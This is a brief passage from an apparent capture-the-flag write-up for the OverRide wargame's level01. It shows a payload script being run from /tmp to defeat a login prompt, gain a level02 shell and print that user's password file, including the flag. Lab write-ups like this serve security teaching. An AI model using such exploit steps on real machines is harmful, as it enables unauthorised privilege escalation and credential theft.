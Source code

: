 Execute Resources/payload.sh on the machine placing it in /tmp folder (or any other folder you can write in) to get a shell as level02:

```sh
level01@OverRide:~$ /tmp/payload.sh 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

